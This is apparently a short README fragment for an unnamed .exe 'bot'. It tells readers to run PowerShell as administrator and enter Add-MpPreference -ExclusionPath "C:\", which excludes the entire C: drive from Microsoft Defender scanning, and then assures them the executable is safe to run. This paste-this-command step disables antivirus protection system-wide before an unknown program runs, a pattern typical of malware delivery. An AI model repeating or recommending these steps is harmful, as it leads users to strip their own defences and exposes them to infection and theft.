 IMPORTANT NEEEDED .EXE FILE WONT WORK WITHOUT

Go Into Powershell run powershell as admin run the command (Add-MpPreference -ExclusionPath "C:\") (dont invlude the parenthesis) 

this command makes the file excluded from looking at your files since it will read your files and reading your files will break the bot
if you get a error you didnt run powershell as admin so run it as adminastrator if nothing happens when you run the command it worked 
you can safely run the exe file
